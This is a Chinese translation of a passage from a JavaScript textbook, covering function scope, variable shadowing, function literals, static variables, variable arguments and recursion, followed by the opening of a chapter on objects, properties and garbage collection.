引用的一个容易让人困惑的方面是引用本身是按值传递的。用计算机科学术语来说，这意味着 JavaScript 的引用是指针，而非别名。用更通俗的话说，这意味着你可以*修改*调用上下文中的值，但不能*替换*它。对一个接收了引用类型的参数进行赋值*不会*覆盖调用上下文中的值。例如：

```
function fiddle(arg1)
{
    arg1 = new String("New value");
    document.write("In function fiddle arg1 = "+arg1+"<br />");
}

var x = new String("Original value");

document.write("Before function call x = "+x+"<br />");

fiddle(x);

document.write("After function call x ="+x+"<br />");
```

在 *fiddle* 开始时，*arg1* 持有对 *x* 值的引用：


然而，它并不持有对 *x* 本身的引用。将 "New value" 赋值给 *arg1* 会将其对 *x* 数据的引用替换为对新字符串的引用：


由于 "New value" 的赋值并不是对 *x* 值的修改，因此不会反映在 *x* 中：



如果这段讨论超出了你的理解范围，不用担心；这是比较高级的内容。只要记住以下规则即可：传递引用类型的函数可以修改但不能替换调用上下文中的值。


#### 全局变量与局部变量

对于大多数 JavaScript 开发者来说，作用域只有两种基本类型：全局作用域和局部作用域。*全局变量*是指在整个文档中（"可见"）已知的变量，而*局部变量*则仅限于其定义所在的特定代码块内。函数体拥有自己的局部作用域。例如，在此处的脚本中，变量 *x* 是全局定义的，并且在函数 *myFunction* 内部可用，该函数既打印又修改了它的值。

```javascript
// Define x globally

var x = 5;

function myFunction()
{
  document.write("Entering function<br />");
  document.write("x="+x+"<br />");
  document.write("Changing x<br />");

  x = 7;

  document.write("x="+x+"<br />");
  document.write("Leaving function<br />");
}

document.write("Starting Script<br />");
document.write("x="+x+"<br />");
myFunction();

document.write("Returning from function<br />");
document.write("x="+x+"<br />");
document.write("Ending Script<br />");
```

此脚本的输出如右侧所示。请注意，在这种情况下，变量 *x* 既可以在函数内部读取和修改，也可以在函数外部读取和修改。这是因为它是一个全局变量。

全局变量并非总是有益的，因为它们阻碍了我们轻松地复用函数。如果一个函数使用了一个全局变量，你就不能仅仅将其从一个脚本复制到另一个脚本就期望它能工作。你还必须复制它所依赖的全局变量。这会带来许多问题，主要原因在于前述理由：它降低了可复用性。全局变量的泛滥也会使得理解脚本的功能变得困难。

我们可以不使用全局变量，而是定义仅在其定义所在函数的作用域内已知的局部变量。例如，在以下脚本中，变量 *y* 在函数 *myFunction* 内部被局部定义，并赋值为 5。

```javascript
function myFunction()
{
  var y=5;  // define a local variable

  document.write("Within function y="+y);
}

myFunction();
document.write("After function y="+y);
```

然而，在函数外部，*y* 是**未定义的**，因此脚本会抛出错误消息：

为了"修复"此脚本的执行，我们可以将第二个输出语句替换为一个简单的 **if** 语句，以确定变量 *y* 是否在当前上下文中定义，即当前的 **window**：

```javascript
if (window.y)
    document.write("After function y="+y);
else
    document.write("y is **undefined**");
```

请注意，在这种情况下，脚本显示变量 *y* 在全局空间中确实是**未定义的**：

然而，更可能的情况是，我们有意创建在全局作用域中未知的局部变量，以便将函数的实现细节隐藏于使用它的代码之外。调用与实现之间的这种分离允许实现前文所提及的清晰函数复用，但需小心——有时使用局部和全局变量可能会引起混淆，特别是在存在同名变量时。

#### 变量遮蔽

对局部和全局变量使用相同的变量名称会创建一个潜在的混淆情形，这通常被称为*变量遮蔽*。请注意此处示例中同名的局部和全局变量 x 是如何使用的：

```javascript
var x = "As a global I am a string";

function maskDemo()
{
 var x = 5;
 document.write("In function maskDemo x="+x+"<br />");
}
```

```javascript
document.write("Before function call x="+x+"<br />");
maskDemo();
document.write("After function call x="+x+"<br />");
```

如输出所示，在函数内部所做的值更改没有被保留，因为局部变量有效地遮蔽了全局变量。

通常，当局部变量和全局变量具有相同的标识符时，局部变量优先。然而，最好的做法是完全避免任何潜在的混淆，即永远不要给两个变量赋予相同的标识符。有时这可能不可行，例如，当你在同一个页面中重用由不同人员维护的大量脚本时。在这种情况下，你可以通过在局部变量名前加上函数名来命名它们，例如，用 *maskDemoX* 代替 x。

#### 局部函数

除了将变量的作用域限制在特定函数之外，创建属于某个函数局部的函数也可能是有用的。如果你考虑到可以创建局部对象，并且函数本身也是对象（正如我们将在下一节"函数作为对象"中看到的），那么这种能力就不足为奇了。要创建一个局部函数，只需在它所属函数的语句块内声明它即可。例如，以下脚本显示了一个名为 *testFunction* 的函数，其中有两个局部定义的函数 *inner1* 和 *inner2*：

```javascript
function testFunction()
{
 function inner1()
 {
  document.write("testFunction-inner1<br />");
 }

 function inner2()
 {
  document.write("testFunction-inner2<br />");
 }

 document.write("Entering testFunction<br />");
 inner1();
 inner2();
 document.write("Leaving testFunction<br />");
}

document.write("About to call testFunction<br />");
testFunction();
document.write("Returned from testFunction<br />");
```

从函数内部可以如前所述那样调用这些函数，但尝试从全局作用域调用 *inner1* 或 *inner2* 会导致错误消息，如下所示：

```javascript
function testFunction()
{
 function inner1()
 {
    document.write("testFunction-inner1<br />");
 }

 function inner2()
 {
    document.write("testFunction-inner2<br />");
 }

 inner1();  // this will error because inner1 is local to testFunction
}
```

虽然使用局部函数为我们提供了一定的创建独立代码模块的能力，但这种技术在 JavaScript 中很少见到。部分原因是局部（或"嵌套"）函数仅从浏览器的第 4 代开始才得到支持。当然，另一个原因是，不幸的是，大多数 JavaScript 程序员并未实践这种模块化的编码风格。

#### 函数作为对象

正如我们将在下一章看到的，在 JavaScript 中，几乎所有的非原始数据都是对象，函数也不例外。因此，我们可以以一种与我们迄今为止所见截然不同的方式来定义函数，即使用关键字 **new** 和 **Function** 对象。例如，这里我们定义了一个函数并将其赋值给变量 `sayHello`。注意 **Function** 是大写的，因为我们谈论的是创建 JavaScript 内置 **Function** 对象的一个实例：

```javascript
var sayHello = new Function("alert('Hello there');");
```

稍后我们可以像使用普通函数调用一样使用赋值后的变量 `sayHello`：

```javascript
sayHello();
```

因为函数是一等数据类型，函数甚至可以被赋值给另一个变量，并使用该名称来调用。

```javascript
var sayHelloAgain = sayHello;
```

```javascript
sayHelloAgain();
```

扩展这个例子，我们可以定义一个带参数的函数来打印输出

```javascript
var sayHello2 = new Function("msg","alert('Hello there '+msg);");
```

并调用它：

```javascript
sayHello2('Thomas');
```

**Function()** 构造函数的通用语法是

```javascript
var functionName = new Function("argument 1",..."argument n",
"statements for function body");
```

如前所述，函数可以没有参数，因此 **Function()** 的实际参数数量会有所不同。我们唯一需要做的就是将要作为函数体执行的语句集合作为最后一个参数传递。

如果你以前编写过 JavaScript 代码，你可能没见过这种函数定义风格，并想知道它的价值是什么。使用 **new** 操作符声明函数的主要优点是脚本可以在文档加载后创建函数。

> **注意** 自 JavaScript 1.2 起，你可以在脚本中的任何位置使用 **new** 创建函数；以前，你只能全局定义它们，而不能在 **if** 语句、循环或其他函数相关的块中定义。

#### 函数字面量与匿名函数

正如我们在前一节所看到的，使用 **new** 操作符定义函数不会给函数一个名称。一种定义无名函数然后将其赋值给某物的类似方式是使用函数字面量。函数字面量使用 **function** 关键字，但没有显式的函数名。

函数字面量的一个简单用法是

```javascript
var sayHi = function(name) { alert('Hi my name is '+name); };
```

```javascript
sayHi('Fritz');
```

我们将一个函数字面量赋值给 `sayHi`，然后可以像使用任何其他函数一样使用它。


上一个示例可能不太引人注目，但函数字面量确实有其用途。它们的主要用途是为用户定义的对象创建方法。这里展示了一个使用函数字面量的简单示例。我们定义了一个名为 *SimpleRobot* 的函数，用作对象构造函数——一个创建对象的函数。在函数内部，我们定义了三个方法，它们被赋值为函数字面量。

```javascript
function SimpleRobot(robotName)
{
   this.name = robotName;
   this.sayHi = function () { alert('Hi my name is '+this.name); };
   this.sayBye = function () { alert('Bye!'); };
   this.sayAnything = function (msg) { alert(this.name+' says '+msg); };
}
```

现在，使用 **new** 操作符结合我们的 *SimpleRobot* 构造函数来创建对象变得很简单，如下所示：

```javascript
var fred = new SimpleRobot("Fred");
```

调用这些不同的函数，或者更准确地说，调用它们的方法，只需调用它们的名字即可，类似于普通的函数调用：

```javascript
fred.sayHi();
fred.sayAnything("I don't know what to say");
fred.sayBye();
```

上一个示例的结果如下所示：



你可能会想，为什么不直接在构造函数中使用以下 **new** 风格的语法：

```javascript
function SimpleRobot(robotName)
{
    this.name = robotName;
    this.sayHi = new Function ("alert('Hi my name is '+this.name); ");
    this.sayBye = new Function ("alert('Bye!'); ");
    this.sayAnything = new Function("msg","alert(this.name+' says '+msg);" );
}
```

实际上你可以这样做，而且一切仍能正常运行。这种方法的唯一缺点是它可能会消耗大量内存，因为每次创建一个新对象时都会创建新的函数对象。

还有一种类似的无名函数甚至在任何时候都不会被赋予名称。*匿名函数*是指在赋值或使用后无法进一步引用的函数。例如，我们可能希望以不同于内置 **sort()** 方法提供的某种方式对数组进行排序（正如我们将在第7章看到的）；在这种情况下，我们可以传递一个匿名函数：

```javascript
var myArray = [2, 4, 2, 17, 50, 8];
myArray.sort( function(x, y)
            {
             // function statements to do sort
            }
          );
```

匿名函数的创建在这种情况下是通过使用函数字面量来完成的。虽然该函数对 **sort()** 是可访问的（因为它作为参数被传递），但该函数从未被绑定到一个可见的名称，因此被认为是匿名的。

匿名函数可能会令人困惑，所以你可能不需要经常使用它们，甚至根本不需要。在JavaScript中，它们唯一可能使用的其他地方可能是事件处理程序，如下所示：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Simple Event and Anonymous Function</title>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
</head>
<body>
<form id="form1" name="form1">
      <input type="button" id="button1" name="button1" value="Press me" />
</form>
<script type="text/javascript">
 window.document.form1.button1.onclick = function () {alert('The button was pressed!')};
</script>
</body>
</html>
```

在事件中使用匿名函数也在[第11章](.)中讨论。

#### 静态变量

函数作为对象的一个有趣方面是你可以创建静态变量。*静态变量*是函数局部作用域中的一个变量，其值在函数调用之间保持不变。在JavaScript中，通过向相关函数添加实例属性来创建静态变量。例如，考虑这里的代码，它定义了一个函数 *doSum*，用于将两个数字相加并保持一个运行总和：

```javascript
function doSum(x, y)
{
     doSum.totalSum = doSum.totalSum + x + y;     // update the running sum
     return(doSum.totalSum);                      // return the current sum
}
```

```javascript
// Define a static variable to hold the running sum over all calls
doSum.totalSum = 0;

document.write("First Call = "+doSum(5,10)+"<br />");
document.write("Second Call = "+doSum(5,10)+"<br />");
document.write("Third Call = "+doSum(100,100)+"<br />");
```

接下来显示的结果表明，通过使用静态变量，我们可以在函数调用之间保存数据。



如果你需要将值从一次调用保持到下一次调用，应强烈优先使用静态变量而不是全局变量。

#### 高级参数传递

作为对象，用户定义的JavaScript函数具有与之关联的各种属性和方法。一个特别有用的属性是只读的 `length` 属性，它指示函数接受的参数数量。在这个例子中，

```javascript
function myFunction(arg1,arg2,arg3)
{
    // do something
}
alert("Number of parameters expected for myFunction = "+myFunction.length);
```

脚本将显示 *myFunction* 接受三个参数。由于此属性显示函数的已定义参数，当函数声明为不接受任何参数时，其 **length** 属性将返回 **0**。

> **注意** *Netscape 4.x 及更高版本的浏览器还支持 **arity** 属性，该属性包含与 **length** 相同的信息。由于这不是标准属性，应避免使用。*

当然，实际上在任何时间都可以改变传递给函数的参数数量，我们甚至可以通过检查与特定函数关联的 **arguments[]** 数组来适应这种可能性。当函数被调用时，该数组会被隐式填充函数的参数。以下示例显示了一个函数 *myFunction*，它没有定义任何参数，但使用三个参数进行调用：

```javascript
function myFunction()
{
    document.write("Number of parameters defined = "+myFunction.length+"<br/>");
    document.write("Number of parameters passed = "+myFunction.arguments.length+
"<br />");
    for (i=0;i<arguments.length;i++)
        document.write("Parameter "+i+" = "+myFunction.arguments[i]+"<br />");
}
myFunction(33,858,404);
```

此处显示的结果表明，JavaScript函数可以完全正常地接收任意数量的参数。



当然，你可能想知道如何利用这一点。以下示例显示了一个求和例程，它可以将传递给它的任意数量的参数相加：

```javascript
function sumAll()
{
    var total=0;
    for (var i=0; i<sumAll.arguments.length; i++)
        total+=sumAll.arguments[i];
    return(total);
}
alert(sumAll(3,5,3,5,3,2,6));
```

请注意，这不是一个非常健壮的函数——如果你传递字符串或其他不应相加的数据类型，它也会尝试将它们相加。当我们在本书后面介绍各种JavaScript应用程序时，我们将看到使用接受可变数量参数的函数的更复杂用法。我们还将从下一章开始看到函数作为对象的使用。现在，让我们将注意力转向创建函数时使用的一种特殊技术——递归。

#### 递归函数

*递归*函数是指调用自身的函数。虽然这并不总是执行计算最有效（按时间计算）的方式，但递归函数的优雅非常吸引人。许多程序员发现，某些计算可以简单地以递归方式表达，其优点超过了因重复函数调用而产生的额外开销这一缺点。

考虑数学中阶乘的定义，给定一个数字 *n*，

*n! = n* (*n*–1) * (*n*–2) * ... * 1

因此，根据阶乘的定义，5! = 5 * 4 * 3 * 2 * 1，或120。为完整起见，0! 被定义为1，负数的阶乘未定义。我们可以编写一个递归函数，以某种相当简单的方式计算阶乘。在这里，函数 *factorial* 不断地用越来越小的值调用自身，直到达到基本情况0，此时结果“向上”返回，直到计算完成。

```javascript
function factorial(n)
{
  if (n == 0)
    return 1;
  else
    return n * factorial(n-1);
}
```

向函数传递一个正值，我们看到

```javascript
alert(factorial(5));
```

产生预期的结果：



但是，如果向函数传递一个负值，递归将无限期继续。注意在Internet Explorer中这种情况下产生的错误：



可以向函数添加一个简单的 **if** 语句来避免此类问题。


即使计算是合法的（最终会终止），在某些递归函数中也可能会产生类似的错误信息，这仅仅是因为递归过程太长。原因在于递归计算带来的开销，因为挂起的函数被保存在函数调用栈中。

通常情况下，将递归函数改写为迭代形式是相当直接的，尽管可能不够优雅。考虑下面*阶乘*函数的重写：

```
function factorial(n)
{
	if (n >= 0)
	{
		var result=1;
		while (n > 0)
		{
			result = result * n;
			n--;
		}
		return result;
	}
	return n;
}
```

实际上，如今递归函数在网页的JavaScript中很少使用。对于在计算机科学或数学课程中被递归困扰的读者来说，你们暂时可以松一口气了。然而，递归将会在后文中再次出现（[第10章](Chapter%2010)），届时我们将使用文档对象模型来考虑(X)HTML文档树的遍历。

#### 使用函数

在本章结束之前，我们将绕个弯子，谈谈在JavaScript中使用函数的实践。这些建议作为良好的编程实践，应该会让代码更易于维护。

**首先定义脚本中的所有函数** 这条建议的原因应该是显而易见的：我们需要确保在调用函数之前，它已经被定义并被浏览器读取。其次，如果我们将代码将使用的所有函数定义在一个地方，会使函数更容易找到。

**为函数取好名字** 在为函数和变量命名时，你需要多加注意。因为函数和变量共享同一个命名空间，你不应该声明相同名称的变量和函数。最好在函数名前加上"func"或你自己选择的其他字符串或字母。因此，使用这种方案，如果我们有一个名为*hello*的变量，并且想定义一个也叫*hello*的函数，我们会使用*funcHello*。

> 注意 一些开发者喜欢用不同的大小写来区分变量和函数，但这可能不够明显。这是一种风格选择，我们留给读者自行决定。

除了明显的名称冲突之外，当我们有相似的名称时，非常微妙的错误可能会悄然而入，特别是考虑到函数在文档解析时创建，而变量在脚本运行时创建。请注意下面这个脚本中，同时存在一个变量和一个名为*x*的函数。

```
var x = 5;

function x()
{
    alert("I'm a function!");
}

alert(typeof x);
```

你可能期望alert显示*x*是一个函数，或者更确切地说，是一个对象，因为它似乎是后面定义的。然而，正如你在这里看到的，它显示为一个**number**：



如果你考虑函数和变量实际创建的时间，这个输出就合情合理了。函数在脚本解析时创建，而变量在脚本运行时创建。虽然这是一个刻意的例子，但它说明了理解JavaScript中事物创建方式的重要性。

然后，在每个加载的文档中，最后一行会将相应的变量设置为**true**。使用这种方案，我们在调用文件中包含的任何函数之前，都要确保查看变量*lib1Loaded*或*lib2Loaded*的值。例如：

```
if (lib1Loaded)
    doSomething(x,y,z)
```

大多数情况下不需要这样的努力，但JavaScript设计者应该仔细考虑文档的加载顺序，以及如果脚本的某些部分在整个文档加载完成之前被调用会发生什么。

**使用显式的return语句** 即使你的函数不会返回任何值，也要插入**return**语句。JavaScript是一种解释型语言，让解释器不必做额外工作或做出任何假设，应该会产生运行更好的脚本。

**编写独立的函数** 一如既往，你应该实践模块化设计，仅使用函数参数、**return**语句和按引用传递的数据值来传入和传出数据。我们应该避免副作用，比如从函数内部更改全局值。局部变量应始终用于执行特定于某个函数的计算，隐藏函数可以以相同方式用于创建在其他地方不需要的专用函数。费心以这种方式创建独立函数的价值在于，这类函数可以在各种情况下不用担心地重用。

**仔细检查参数** 正如我们所见，JavaScript不会仔细检查传递给函数的变量的数量或类型。使用*可变参数函数*，即接受可变数量参数的函数，可以编写非常强大的代码。然而，这样做同样可能引发问题。例如，考虑这个不做检查的简单函数：

```
function addTwoNumbers(x,y)
{
  alert(x+y);
}

addTwoNumbers(5);
```

这可以很容易地重写为检查传递的参数数量：

```
function addTwo(x,y)
{
  if (addTwo.arguments.length == 2)
    alert(x+y);
}
```

当然，这无法纠正错误的函数调用，比如

```
addTwo(5,true);
```

这会产生值6，因为**true**会被转换为整数1。如果我们在函数中添加类型检查，就可以解决这个问题，如下所示：

```
function addTwo(x,y)
{
  if (addTwo.arguments.length == 2)
  {
    if ( (typeof(x) != "number") || (typeof(y) !="number") )
      return;
    else
      alert(x+y);
  }
  return;
}
```

如我们所见，要创建真正可重用、能够经受住任何考验的函数，我们需要付出更多的努力。

**为函数添加注释** 考虑在函数前放置一个注释块，注明函数的名称、用途、接受参数的数量和类型、任何返回值以及函数可能产生的任何输出。下面是这样的注释块的示例：

```
/*
  Function customAlert(message,icon,color,buttontext)

  Description: This function creates a custom alert dialog
             with passed message, icon, color and buttontext.

  Input:  message - a string containing message to be displayed
          icon - reference to a GIF or JPEG image to ww be used on dialog
          color - default color in the form of a hex color
                  string to be used for background. White is used
                  if unspecified
          buttontext - string containing message to be used on
                       dialog button.  Uses the string "ok" if
                       unspecified.

  Output: creates a dialog window relative to the current window
          returns true if successful in creating window, false otherwise
*/
```

```
function customAlert(message, icon, color, buttontext)
{
    // function goes here
}
```

遗憾的是，很少有JavaScript程序员以这种方式为他们的函数编写文档，这可能是因为担心下载的额外大小。当然，我们总可以使用工具在上传到网站之前将这类代码精简到最低限度，但此类做法仍然相对罕见。

良好的编程不仅仅是语法的正确，还包括风格的一致性。很多人可能会争论一种特定的编码风格相对于另一种的好处，但无论选择什么，请坚持下去。在本章中，我们展示了一种主要的模块化编程风格，这对任何用过Pascal或C编程的人来说应该很熟悉。然而，基于对象使用的更现代的编程风格也是可能的，它将在下一章中使用。


### 总结

JavaScript 函数是开发者创建结构化可复用代码最基本的工具。一个函数应设计成自包含的，通过参数传入数据，并通过 **return** 语句返回数据。通常，大多数参数是按值传递给函数的，但数组和对象等复合类型是按引用传递的。JavaScript 函数非常灵活，可以传递可变数量的参数给函数。

然而，鉴于 JavaScript 松散的类型和参数检查，需要谨慎编程。此外，为确保函数的可重用性，应使用 **var** 语句声明局部变量，以避免与全局名称冲突。局部或隐藏函数也可用于隐藏特定函数内部的计算。由于 JavaScript 函数当然可以相互调用，复杂的任务可以分解成多个函数。递归函数可用于创建优雅的解决方案，通过让函数反复调用自身来执行计算。虽然 JavaScript 函数功能强大，但它们最终是作为对象实现的——这是一种更有用的结构，将在[下一章](下一章)中讨论。

## 第6章：对象

JavaScript 是一种基于对象的语言。除了循环和关系运算符等语言构造外，JavaScript 的几乎所有特性都以某种方式通过对象实现。有时对象被显式使用来执行特定任务，例如使用文档对象模型操作 (X)HTML 和 XML 文档。其他时候，对象在语言中的作用不那么明显，就像 **String** 对象在操作原始字符串数据时所扮演的角色。虽然前面的章节隐式地展示了使用内置对象的示例，但本章将直接探讨 JavaScript 对象。

### JavaScript 中的对象

JavaScript 中的对象分为四组：

- *用户定义*对象是程序员创建的自定义对象，用于为特定编程任务带来结构和一致性。本章涵盖此类对象的创建和使用。

- *内置*对象由 JavaScript 语言本身提供。这些包括与数据类型相关的对象（**String**、**Number** 和 **Boolean**）、允许创建用户定义对象和复合类型的对象（**Object** 和 **Array**），以及简化常见任务的对象，如 **Date**、**Math** 和 **RegExp**。内置对象的功能由 ECMA-262 语言标准规定，在较小程度上也由特定浏览器供应商的规范规定。接下来的两章将讨论内置对象的特性。

- *浏览器*对象是指那些未作为 JavaScript 语言规范的一部分指定，但大多数浏览器普遍支持的对象。浏览器对象的示例包括 **Window**（该对象支持操纵浏览器窗口并与用户交互）和 **Navigator**（该对象提供有关客户端配置的信息）。由于浏览器对象的大多数方面不受任何标准的约束，其属性和行为可能因浏览器和版本而异。这些类型的对象将在本书其余部分，特别是[第9章](第9章)中讨论。

- *文档*对象是文档对象模型 (DOM) 的一部分，由 W3C 定义。这些对象为程序员提供了一个结构化的接口来访问 (X)HTML 和 XML 文档。正是这些对象使得 JavaScript 能够操作层叠样式表 (CSS) 并促进动态 HTML (DHTML) 的实现。文档对象的访问由浏览器通过 **Window** 对象的 **document** 属性（**window.document**）提供。关于 DOM 的深入讨论可以在[第10章](第10章)中找到。

JavaScript 中的对象总结在表 6-1 中。

**表 6-1：JavaScript 可用的四种对象类型**

| 类型 | 示例 | 由谁提供实现 | 管理标准 |
| :--- | :--- | :--- | :--- |
| 用户定义 | 程序员定义的 Customer 或 Circle | 程序员 | 无 |
| 内置 | Array, Math | 浏览器通过其 JavaScript 引擎 | ECMA-262 |
| 浏览器 | Window, Navigator | 浏览器 | 无（尽管某些部分遵循一个临时标准） |
| 文档 | Image, HTMLInputElement | 浏览器通过其 DOM 引擎 | W3C DOM |

这四个类别之间存在一些重叠。例如，在官方 DOM 标准出现之前，像 **Image** 这样的对象是浏览器对象，因为每个供应商都实现了自己的功能集。造成这种重叠的主要原因是，没有一个单一的标准来规范 JavaScript 所有方面的行为。ECMA-262 标准规范语言本身的核心细节。W3C 的 DOM 规范规定了像网页这样的结构化文档应如何呈现给脚本环境。浏览器供应商按照自己的意愿定义用户界面的访问方式，甚至创建自己专有的 DOM 扩展。结果是一套混乱且有些令人困惑的技术，它们统一在“JavaScript”的伞下。

好消息是，浏览器供应商最终就浏览器对象达成了一个事实上的标准。这个“标准”更多是历史环境和浏览器战争的产物，而不是理性设计过程的产物。这可以从 **Navigator** 对象被 Opera、Netscape 和 Internet Explorer 支持这一事实得到证明，尽管其名称显然源自 Netscape 最初的 Navigator 浏览器。虽然 **Navigator** 对象的功能在不同浏览器中大致一致，但仔细检查会发现其属性在不同浏览器类型和版本中的支持存在一些差异。

本章涵盖 JavaScript 中对象的基本行为方式和操作方法。内置、浏览器和文档对象的具体功能将在后续章节中详细讨论。

#### 对象基础

一个*对象*是无序的数据集合，包括原始类型、函数，甚至是其他对象。对象的实用性在于它们将一个特定任务所需的所有数据和逻辑汇集在一个地方。**String** 对象存储文本数据并提供你需要对其进行操作的许多函数。虽然对象在编程语言中并非严格必要（例如，C 没有对象），但它们确实使包含它们的语言更容易使用。

#### 对象创建

对象是用*构造函数*创建的，构造函数是一种特殊类型的函数，它通过初始化新对象占用的内存来准备其使用。在*第4章*中，我们看到了如何通过将 **new** 运算符应用于对象的构造函数来创建对象。此运算符导致其应用的构造函数创建一个全新的对象，而创建的对象的性质由调用的特定构造函数决定。例如，**String()** 构造函数创建 **String** 对象，而 **Array()** 构造函数创建 **Array** 对象。这实际上是 JavaScript 中对象类型命名的方式：以创建它们的构造函数命名。

一个简单的对象创建示例是：
`var city = new String();`

此语句创建一个新的 **String** 对象，并将其引用放入变量 *city* 中。由于未向构造函数传递任何参数，*city* 被赋予字符串的默认值，即空字符串。我们可以通过向构造函数传递一个指定初始值的参数使示例更有趣：
`var city = new String("San Diego");`

这将在 *city* 中放置一个值为“San Diego”的新 **String** 对象的引用。

#### 对象销毁与垃圾回收

对象和其他变量使用内存，而内存是计算机有限的资源。由于内存可能稀缺，一些编程语言迫使程序员仔细管理其程序对内存的使用。幸运的是，JavaScript 不是这样的语言，它向程序员隐藏了内存管理问题。当你在 JavaScript 中创建对象时，解释器会不可见地为你分配内存供你使用。它还会在你之后进行“清理”。这个语言特性称为*垃圾回收*。

像 JavaScript 这样的垃圾回收语言会密切关注你的数据。当一段数据不再能被你的程序访问时，它占用的空间会被解释器回收并返回到可用内存池。例如，在下面的代码中，最初分配的引用 Monet 的 **String** 最终将返回到空闲池，因为它不再可访问（即，对它的引用被对包含关于 Dali 句子的对象的引用所取代）：

`var myString = new String("Monet was a French Impressionist");`

`// some other code`

`myString = new String("Dali was a Spanish Surrealist");`

解释器执行垃圾回收的确切细节并不真正重要。然而，如果你的代码涉及大量数据，给解释器提示你已经处理完特定变量，对于将脚本的内存占用保持在合理水平可能很有用。一个简单的方法是用 **null** 替换不需要的数据，表示该变量现在为空。例如，假设你有一个 **Book** 对象：
`var myBook = new Book();`

`// Assign the contents of War and Peace to myBook`

`// Manipulate your data in some manner`

`// When you are finished, clean up by setting to null`


myBook = null;

最后一句明确表明你已不再需要*myBook*引用的数据，因此它占用的数兆字节内存可以被重用。

> **注意** *如果同一数据存在多个引用，请务必将其全部设置为**null**；否则，解释器会保留这些数据以防再次需要。*

#### 属性

对象的*属性*是其包含的某部分命名数据。如第4章所述，属性通过应用于对象的点（.）运算符来访问。例如，

```
var myString = new String("Hello world");

alert(myString.length);
```

访问由*myString*引用的**String**对象的**length**属性。

访问不存在的属性将得到**undefined**值：

```
var myString = new String("Hello world");

alert(myString.noSuchValue);
```

在第4章中，我们也看到了如何轻松使用*实例属性*，即由脚本动态添加的属性：

```
var myString = new String("Hello world");

myString.simpleExample = true;

alert(myString.simpleExample);
```

实例属性之所以得名，是因为它们仅存在于添加到的特定对象或*实例*中，这与**String.length**等属性不同，后者在每个**String**对象的实例中始终存在。实例属性对于为了某些特定用途而增强或注释现有对象非常有用。

> **注意** *JavaScript确实提供了通过对象原型为特定对象的所有实例添加属性的能力。然而，原型是一种相当高级的语言特性，将在本章后面关于JavaScript继承特性细节的部分中讨论。*

你可以使用**delete**运算符删除实例属性。以下示例说明了删除我们添加到**String**对象的实例属性：

```
var myString = new String("Hello world");

myString.simpleExample = true;

delete myString.simpleExample;

alert("The value of myString.simpleExample is: " + myString.simpleExample);
```

结果是

如你所见，**simpleExample**属性的值是undefined，就像任何不存在的属性一样。

> **注意** C++和Java程序员应该注意，JavaScript的**delete**与这些语言中的不同。它仅用于从对象中删除属性和从数组中删除元素。在前面的例子中，你无法删除myString本身，尽管尝试这样做会静默失败。

